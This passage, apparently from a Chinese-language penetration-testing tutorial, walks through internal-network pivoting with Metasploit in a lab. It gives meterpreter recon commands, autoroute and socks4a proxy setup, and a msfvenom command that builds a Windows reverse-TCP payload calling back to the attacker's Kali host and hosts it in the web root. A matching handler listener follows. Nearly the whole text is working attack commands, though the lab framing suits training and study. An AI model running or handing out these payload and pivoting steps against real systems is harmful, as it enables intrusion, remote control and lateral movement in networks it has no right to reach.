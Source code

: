 然后进行基本信息的获取

```
查看当前用户
getuid
获取网卡信息
ifconfig
路由信息
run get_local_subnets
```

下面继续使用kaili进行操作

```
增加路由
run autoroute  -s 10.10.10.0/24
run autoroute –p查看是否增加了路由
background
搭建socks链接服务
use auxiliary/server/socks4a
show options
set SRVPORT	10044随便设置，然后挂上sock隧道就可以了
run
/etc/prxoychains.conf
```

## 五、常见的内网测试

大概信息如下:

```
kali   192.168.43.224 
2003 192.168.43.115 192.168.111.132
ubuntu 192.168.111.128 
```

首先生成攻击载荷

```
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.43.224  lport=12345 -f exe >/var/www/html/s.exe(kali)
```

本地监听

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.43.224
set lport 12345
exploit
注意这些lhost和lport要和攻击载荷中的一致
```

开始操作

```
route 查看路由表 网关等信息均能查看
ps 查看进程
```

